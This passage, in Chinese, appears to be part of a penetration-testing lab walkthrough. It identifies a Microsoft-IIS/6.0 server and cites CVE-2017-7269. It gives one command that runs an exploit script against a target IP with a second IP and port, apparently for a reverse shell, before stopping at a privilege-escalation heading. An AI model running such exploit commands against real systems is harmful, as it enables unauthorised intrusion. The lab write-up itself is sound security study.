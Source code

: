 重要信息为服务器为 `Microsoft-IIS/6.0`

4、寻找 IIS6.0 的漏洞

<img src=".\图片\Snipaste_2023-05-20_21-38-55.png" alt="Snipaste_2023-05-20_21-38-55" style="zoom:80%;" />

## 漏洞利用

CVE-2017-7269

```
python2 II6.py 192.168.0.104 80 192.168.0.103 2238
```

<img src=".\图片\Snipaste_2023-05-20_21-47-56.png" alt="Snipaste_2023-05-20_21-47-56" style="zoom:80%;" />

## 提权
